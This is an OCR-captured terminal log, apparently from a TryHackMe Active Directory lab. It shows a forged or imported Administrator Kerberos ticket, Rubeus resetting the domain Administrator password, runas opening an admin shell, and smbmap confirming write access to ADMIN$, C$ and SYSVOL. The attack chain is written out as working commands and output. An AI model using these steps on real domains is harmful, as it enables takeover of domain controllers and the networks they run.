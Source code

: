 ```
[*] Ticket written to ticket

[+] Ticket successfully imported!

  ServiceName              :  krbtgt/lunar.eruca.com
  ServiceRealm             :  LUNAR.ERUCA.COM
  UserName                 :  Administrator
  UserRealm                :  LUNAR.ERUCA.COM
  StartTime                :  2/16/2023 10:27:49 PM
  EndTime                  :  2/17/2023 8:27:49 AM
  RenewTill                :  2/23/2023 10:27:49 PM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  2Vm4QWtID/aW/b4JrUCe+A==
  ASREP (key)              :  5DFAA87BAA65B0004396E20C4A8ACA3F

PS C:\THMTools> .\Rubeus.exe changepw /new:Witty123 /dc:LUNDC.lunar.eruca.com /targetuser:lunar.eruca.com\Administrator /ticket:ticket

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0

[*] Action: Reset User Password (AoratoPw)

[*] Using domain controller: LUNDC.lunar.eruca.com (10.10.221.143)
[*] Resetting password for target user: lunar.eruca.com\Administrator
[*] New password value: Witty123
[*] Building AP-REQ for the MS Kpassword request
[*] Building Authenticator with encryption key type: rc4_hmac
[*] base64(session subkey): nmFkH56Yas8m7PxiDk2gRg==
[*] Building the KRV-PRIV structure
[+] Password change success!

PS C:\THMTools> runas /user:lunar.eruca.com\Administrator cmd.exe
Enter the password for lunar.eruca.com\Administrator:
Attempting to start cmd.exe as user "lunar.eruca.com\Administrator" ...

Microsoft Windows [Version 10.0.17763.1098]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
lunar\administrator

┌──(witty㉿kali)-[~/Downloads/Ghostpack-CompiledBinaries]
└─$ smbmap -H 10.10.221.143 -u "Administrator" -p "Witty123"   
[+] IP: 10.10.221.143:445	Name: 10.10.221.143                                     
[|] Work[!] Unable to remove test directory at \\10.10.221.143\SYSVOL\WFJRCAHTLQ, please remove manually
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	READ, WRITE	Remote Admin
	C$                                                	READ, WRITE	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	READ, WRITE	Logon server share 
	SYSVOL                                            	READ, WRITE	Logon server share 

:)
```